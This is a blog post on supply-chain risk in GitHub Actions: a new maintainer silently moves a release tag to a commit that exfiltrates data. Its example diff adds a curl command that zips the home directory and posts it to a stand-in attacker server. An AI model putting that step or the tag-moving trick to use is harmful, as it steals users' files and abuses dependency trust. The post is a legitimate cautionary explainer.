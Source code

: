 ```yaml
---
date: 20240511
---
```


# GitHub Actions beg for a supply chain attack

When the GitHub Actions runner sees

```yaml
- name: Clone repository
  uses: actions/checkout@v4
```

it `git clone`s the `checkout` repository of the `actions` user/organization on
GitHub and then switches to the git tag named `v4`. The `actions` org is
maintained by GitHub staff, so we trust it to be secure and well-behaved.

Recently though, a cool new framework is taking off. It's called `foo`. Your
company decides to build a project with it and one of your tasks in the current
sprint is to set up a CI pipeline. Fortunately, the open-source community
delivers once again; you quickly discover that somebody has already created an
Action to make setup easy:

```yaml
- name: Set up Foo
  uses: alice/setup-foo@v2
```

Some time later `alice` stops maintaining the `setup-foo` action, but she wants
the Action to live on, so she appoints a new friendly person who's been around
the repo for a while and contributed a few PRs. That's how `malloy` becomes the
maintainer of `setup-foo`.

Some time later, `malloy` makes a new release of `setup-foo` with the following
code:

```diff
 #!/usr/bin/env sh
 echo "imagine there is shell code here"
+cd ~ && zip -r nothing_really.zip .
+curl \
+  --request POST https://totally-legit-server.ru \
+  --form "file=@$HOME/nothing_really.zip"
+cd -
 echo "legit shell code"
 echo "more legit shell code"
```

The change is introduced in a commit with the message "bump deps" that removes
6969 and adds 2137 lines of code to many files, mostly `package-lock.json`. Then
`malloy` releases this new version as `v2.1`:

```console
git commit -m "bump deps" && git push origin master
git tag v2.1
```

and then he moves the `v2` tag to point to the same commit as `v2.1`, [**just
like GitHub recommends**][gh]:

```console
git tag --delete v2 # delete tag locally
git push origin :v2 # delete tag on the remote
git tag v2
git push --tags
```

It's a Friday night. Hundreds of thousands of nightly builds run, in thousands
of repositories, including private ones.

No one notices anything for a few days.

---

My knowledge of the cybersecurity landscape is very basic, but I suppose a
solution could be for GitHub to deprecate the current way of using external
actions, and require us to provide a checksum:

```yaml
- name: Set up Foo
  uses: alice/setup-foo@v2
  sha256: ea3a03b4971eeb62730e1de238225cc4e6145f0eb50ad28b1379f2a2ee71e16e
```

The problem with the above is twofold:

- First and foremost, it no longer looks as sexy.
- Realistically, who checks the diff when bumping the dependencies?

---

I maintain the GiHub Actions called [subosito/flutter-action][^1]. If you
enjoyed the read, consider [sending me a few bucks for coffee][sponsor]. I pinky
promise to never perform a supply chain attack on you.

[gh]: https://docs.github.com/en/actions/creating-actions/about-custom-actions#using-tags-for-release-management
[sponsor]: https://github.com/sponsors/bartekpacia
[subosito/flutter-action]: https://github.com/subosito/flutter-action

[^1]: It should be named `setup-flutter`.
